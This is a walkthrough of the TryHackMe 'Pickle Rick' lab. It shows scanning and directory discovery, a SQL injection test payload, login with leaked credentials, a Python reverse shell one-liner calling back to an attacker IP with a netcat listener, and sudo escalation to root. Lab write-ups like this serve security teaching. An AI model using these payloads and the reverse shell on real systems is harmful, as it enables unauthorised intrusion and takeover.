# 🥒 Pickle Rick — Walkthrough

🔗 **TryHackMe Room:** [Pickle Rick](https://tryhackme.com/room/picklerick)

```diff
> enumerate first • read the source • turn command execution into access
```

---

## 🧠 Enumeration

### Web Technology Check

The deployed machine hosts a web application on Apache.



👉 Insight:
Start with the visible surface. Even simple technology clues can guide the next enumeration steps.

---

### Nmap Scan

```bash
nmap -Pn -A -p- <target> -v
```



The scan confirmed that the target exposes a web service.

👉 Insight:
Always scan the full port range. A small CTF box can still hide useful services outside the defaults.

---

## 🌐 Web Enumeration

### Source Code Analysis

Inspecting the page source revealed a username:

```text
R1ckRul3s
```



The source also hinted at an `assets` directory.

👉 Insight:
Source code comments and static paths are often part of the intended path in beginner-friendly rooms.

---

### Directory Discovery

```bash
gobuster dir -u http://<target> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```



The `assets` directory was confirmed.



---

### Nikto Scan

```bash
nikto -h <target>
```



Nikto identified an admin login page:

```text
/login.php
```



SQL injection was tested, but the login form did not appear vulnerable to the basic payload:

```sql
1' or 1=1 -- -
```

👉 Insight:
When one path fails, keep enumerating. Authentication bypass is not always the intended route.

---

## 🔑 Credential Discovery

The `robots.txt` file revealed a suspicious value:

```text
Wubbalubbadubdub
```



Using the username from the source code and the value from `robots.txt`, access to the portal was obtained.



👉 Insight:
Credentials are often split across multiple low-signal locations. Correlating findings matters.

---

## 🧪 Command Execution

The portal included a command execution feature. A basic command confirmed that execution worked:

```bash
ifconfig
```

Listing the current directory revealed interesting files:

```bash
ls
```



Two files stood out:

```text
Sup3rS3cretPickl3Ingred.txt
clue.txt
```

The `cat` command was blocked in the portal.



👉 Insight:
Command filters usually block specific binaries or strings, not the underlying objective.

---

## 🚩 First Ingredient

Since the file was inside the web root, it could be requested directly from the browser:

```text
http://<target>/Sup3rS3cretPickl3Ingred.txt
```



The first answer was submitted successfully in TryHackMe.



The clue file provided the next direction:

```text
http://<target>/clue.txt
```



---

## 🐚 Initial Shell

The working directory was confirmed:

```bash
pwd
```



The `/home` directory revealed a user named `rick`:

```bash
ls -a /home
```



Inside `/home/rick`, the second ingredient file was found:

```bash
ls -a /home/rick
```



Python 3 was available on the target:

```bash
which python3
```



A listener was started on the attacker machine:

```bash
nc -lvnp 1234
```

Then a Python reverse shell was executed through the portal:

```bash
python3 -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_ip>",1234));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
```

The shell allowed reading the second ingredient:



The second answer was submitted successfully in TryHackMe.



👉 Insight:
When command execution is available, upgrading it to an interactive shell often makes the rest of the box much easier.

---

## ⬆️ Privilege Escalation

### Sudo Check

```bash
sudo -l
```



The current user could run commands as root without restriction.

### Root Shell

```bash
sudo bash -i
```

With root access, the final ingredient was found in `/root`.



👉 Insight:
Always check sudo privileges after gaining a shell. A permissive sudo rule can be the entire privilege escalation path.

---

## 🧠 Final Thoughts

This room highlights:

* source code inspection
* `robots.txt` enumeration
* directory and file discovery
* command execution through a web portal
* reverse shells
* sudo-based privilege escalation

---

```diff
> small clues chain together • command execution becomes control
```
